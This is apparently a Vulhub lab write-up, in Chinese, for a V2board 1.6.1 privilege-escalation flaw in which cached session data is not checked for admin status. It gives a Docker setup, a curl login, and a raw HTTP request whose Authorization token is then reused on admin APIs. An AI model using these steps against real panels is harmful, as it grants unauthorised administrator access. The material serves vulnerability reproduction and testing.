




V2board 1.6.1 提权漏洞¶
漏洞描述¶
V2board是一个多用户代理工具管理面板。在其1.6.1版本中，引入了对于用户Session的缓存机制，服务器会将用户的认证信息储存在Redis缓存中。
但由于读取缓存时没有校验该用户是普通用户还是管理员，导致普通用户的认证信息即可访问管理员接口，造成提权漏洞。
参考链接：
环境搭建¶
Vulhub执行如下命令启动一个V2board 1.6.1版本服务器：
docker-compose up -d
服务启动后，访问http://your-ip:8080即可查看到其登录页面。

漏洞复现¶
复现该漏洞，必须注册或找到一个普通用户账号。注册完成后，我们发送如下请求进行登录（将其中账号密码替换成你注册时使用的信息）：
curl -i -s -k -XPOST --data-binary "email=threeki%40abc.com&password=threeki@wh0am1" http://your-ip:8080/api/v1/passport/auth/login
服务器会返回当前用户的认证信息“auth_data”：

拷贝这个认证信息，并替换到如下数据包的Authorization头中，发送：
GET /api/v1/user/info HTTP/1.1
Host: your-ip:8080
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/111.0.0.0 Safari/537.36
Accept: */*
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Connection: close
Authorization: dGhyZWVraUBhYmMuY29tOiQyeSQxMCRnb1UzUDBCL25ocTg2blZvYTUvRm5PbVpKUG5yTFptZ2hJa3FUNUdRYndVL003WXNpdVlqMg==

这一步的目的是让服务器将我们的Authorization头写入缓存中。
最后，只需要带上这个Authorization头，即可使用所有管理员API了。例如http://your-ip:8080/api/v1/admin/user/fetch
